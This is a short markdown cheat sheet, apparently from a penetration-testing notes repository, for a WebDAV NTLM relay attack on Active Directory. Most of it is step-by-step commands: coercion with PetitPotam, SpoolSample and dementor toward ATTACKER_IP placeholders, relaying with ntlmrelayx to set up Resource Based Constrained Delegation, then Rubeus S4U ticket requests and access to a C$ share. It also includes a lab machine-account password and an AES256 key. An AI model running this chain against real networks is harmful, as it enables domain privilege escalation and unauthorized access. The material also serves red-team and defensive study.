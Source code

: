 # WebDav Relaying

### Example of exploitation where you can coerce machine accounts to authenticate to a host and combine it with Resource Based Constrained Delegation to gain elevated access. It allows attackers to elicit authentications made over HTTP instead of SMB

## Requirements

#### 1) WebClient service

## Exploitation

#### 1) Disable HTTP in Responder: sudo vi /usr/share/responder/Responder.conf

#### 2) Generate a Windows machine name: sudo responder -I eth0 , e.g: WIN-UBNW4FI3AP0

#### 3) Prepare for RBCD against the DC: 

 - python3 ntlmrelayx.py -t ldaps://dc --delegateaccess -smb2support

#### 4) Discover WebDAV services

 - webclientservicescanner 'domain.local'/'user':'password'@'machine'

 - crackmapexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav

 - GetWebDAVStatus.exe 'machine'

#### 5) Trigger the authentication to relay to our ntlmrelayx:

 - PetitPotam.exe WINUBNW4FI3AP0@80/test.txt 10.0.0.4

### the listener host must be specified with the FQDN or full netbios name like logger.domain.local@80/test.txt . Specifying the IP results in anonymous auth instead of System.

## PrinterBug

 - dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

 - SpoolSample.exe "ATTACKER_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

## PetitPotam

 - Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"

 - Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.
 
 - PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"

#### 6) Use the created account to ask for a service ticket:

 - .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'

 - .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F

 - ls \\PC1.purple.lab\c$
